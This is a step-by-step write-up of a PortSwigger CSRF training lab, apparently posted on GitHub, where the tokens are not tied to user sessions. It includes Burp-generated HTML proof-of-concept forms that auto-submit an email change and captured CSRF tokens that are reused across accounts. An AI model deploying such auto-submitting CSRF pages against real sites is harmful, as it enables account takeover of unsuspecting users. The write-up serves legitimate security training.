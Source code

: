 # Lab: CSRF where token is not tied to user session

 This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

    wiener:peter
    carlos:montoya

# Step 1 Walk the application's change email function using burp

I login as wiener and change the email to get the requests in my burp http history

![image](https://user-images.githubusercontent.com/83407557/210835651-fb802932-0740-400b-ae36-e30eba72c8f8.png)

![image](https://user-images.githubusercontent.com/83407557/210835775-ff7370eb-ad8e-4027-b237-d36db5b0c001.png)

# Step 2 Create a POC

I send this request to engagement tools-->CSRF POC generator:

![image](https://user-images.githubusercontent.com/83407557/210836029-14ea5ffc-e450-4869-8a8a-16f566edf15e.png)

I add a auto-submit script under options and regenerate

![image](https://user-images.githubusercontent.com/83407557/210836274-64b0b02f-a883-4b29-8616-b788e3bef4ae.png)

**POC**

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0ad3008c04b994d1c0504a9700db00aa.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;test&#46;com" />
      <input type="hidden" name="csrf" value="nyXXJftiIoUZuaTaCPpo9km931lEH6KW" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

# Step 3 see if CSRF token is tied to session

Since I have another user I can test, I want to first grab a CSRF token for my current user, so I interpect another request to change my email as wiener, but drop the request:

![image](https://user-images.githubusercontent.com/83407557/210836866-5116c8d3-4862-4a70-97c5-500796006b44.png)

Taking note of the token before dropping:

```
H41NLiHmZ5Wrj070Zh83Rzd4hXkxW0Ws
```
I then open a new private window, I login to carlos:

![image](https://user-images.githubusercontent.com/83407557/210837504-4e4be6f8-a2ad-42a1-bb95-bbf799519ffc.png)

I update carlos' email but capture the request:

![image](https://user-images.githubusercontent.com/83407557/210837702-a38aa0f5-fac0-4b53-8542-c974a002428d.png)

I then replace the csrf token with the one I captured from wiener

![image](https://user-images.githubusercontent.com/83407557/210837905-9bcdd592-f0a0-45a0-a56d-c01405e52004.png)

I see that the email for carlos is changed, telling me that the CSRF token is not tied to a session, but intead is part of a pool that all sessions have access to:

![image](https://user-images.githubusercontent.com/83407557/210838237-b7183c9c-e211-4633-88fd-e9c932d0df6d.png)

# Step 4 collect a few CSRF tokens for testing

I collect a few CSRF tokens as I did before, making sure to drop the requests to the tokens are created by the server, but not used:

**Tokens**
```
hbwE3K9t6hoTtte61eACovjBdV63yVJl

tfVwJG7jXVGS06ppwPX90tGpFWrUCL0u

zvAaomCiYQjNG373dji1tIR5v3vo18UA
```

# Step 5 update the POC

Each time I use the POC a token will get used up, so I will need to update the token each time I test it.

First I change the email to hermh4cks@gmail.com and regenerate the POC:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0ad3008c04b994d1c0504a9700db00aa.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hermh4cks&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="nyXXJftiIoUZuaTaCPpo9km931lEH6KW" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

# Step 5 Host POC on attack-server

I add the POC to the body of /exploit on my attack server and change the value of csrf to the first one in my own pool of captured tokens:

![image](https://user-images.githubusercontent.com/83407557/210839882-f24a6081-41a0-441c-8d43-dfe1dba0a16f.png)

After saving and viewing exploit, I see that carlos has had their email changed to hermh4cks@gmail.com:

![image](https://user-images.githubusercontent.com/83407557/210840054-3069b668-bad6-43a0-89f9-2840fc176fde.png)

# Step 6 update POC

I change the value of the csrf token again in the POC:

![image](https://user-images.githubusercontent.com/83407557/210840377-5adcae82-22e4-4466-9d10-43fcbec4f303.png)

# Step 7 Send exploit to victim

With a fresh CSRF token that isn't tied to a session in place, I send the exploit to the victim

![image](https://user-images.githubusercontent.com/83407557/210840648-0668569d-9ded-4a75-aafb-1587ba2ef413.png)

The attack successfully changes the victim's email to one I control, and solves the lab:

![image](https://user-images.githubusercontent.com/83407557/210840839-8da0f2ae-0f7f-47fb-bfdc-3236bb45c79e.png)
